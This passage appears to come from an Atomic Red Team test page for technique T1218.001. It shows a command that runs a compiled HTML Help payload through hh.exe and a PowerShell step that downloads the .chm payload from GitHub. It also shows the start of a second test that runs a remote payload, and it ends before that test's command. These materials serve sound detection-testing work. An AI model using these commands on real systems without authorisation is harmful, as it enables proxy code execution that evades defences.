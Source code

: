 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | Path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{local_chm_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows


**auto_generated_guid:** 0f8af516-9818-4172-922b-42986ef1e81d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.001/src/T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 
